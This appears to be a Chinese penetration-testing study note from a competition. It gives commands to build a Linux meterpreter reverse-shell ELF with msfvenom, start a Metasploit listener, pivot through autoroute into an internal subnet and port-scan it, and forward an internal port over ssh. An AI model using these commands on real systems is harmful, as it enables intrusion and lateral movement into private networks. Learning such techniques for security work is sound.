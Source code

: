 ```yaml
---
title: msf内网扫描
date: 2019-10-18 23:42:23
tags: 
- 渗透测试
categories: 学习笔记
---
```

# 前言
用于解决内网渗透时打下公网主机时进行内网扫描。
<!--more-->
# 建立meterpreter环境
## 生成反向连接elf
```
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost="Your_IP" lport="Your_Port"  -f elf -o shell
```
-p 后接使用的payload，需要和后面msf的handler监听时使用的payload一致。后面的lhost和lport就是正常的设置参数。
## 设置msf开始监听
```
msf> use exploit/multi/handler
msf> set payload "Your_payload"
msf> set lhost 0.0.0.0
msf> set lport "Your_Port"
```
接下来只要在目标机器上执行生成的elf文件，就可以接到meterpreter反弹环境了
# 使用msf进行跳板扫描
```
meterpreter> run get_local_subnets  //取得目标内网网端
meterpreter> run autoroute -s "Target_subnet" //添加自动转发路由
meterpreter> background //将当前会话置于后台
msf> use auxiliary/scanner/portscan/syn //使用syn半开扫描模块
```
只要设置了meterpreter的路由，则在会话持续期间的流量都可以通过路由进行转发。之后就可以利用msf的扫描模块进行内网扫描了。
# 利用ssh进行端口映射
这个没什么说的，识别出了内网目标后简单的利用
```
ssh -fgCNL out_port:Tar_IP:Tar_port user@out_ip
 ```
就可以把发往out_ip:out_port的流量转发到目标ip的目标端口上，等于暴露了内网的一个端口。
# 比赛结束后更新（2019-10-20）
md，ssh的转发需要知道自己的密码，同时还得在当前的~目录下拥有新建目录的权限，比赛的时候打进去用的是www-data，在www文件夹下没有写入权限的，我傻了都。听学长说可以用meterpreter来端口转发，回来再学习一个
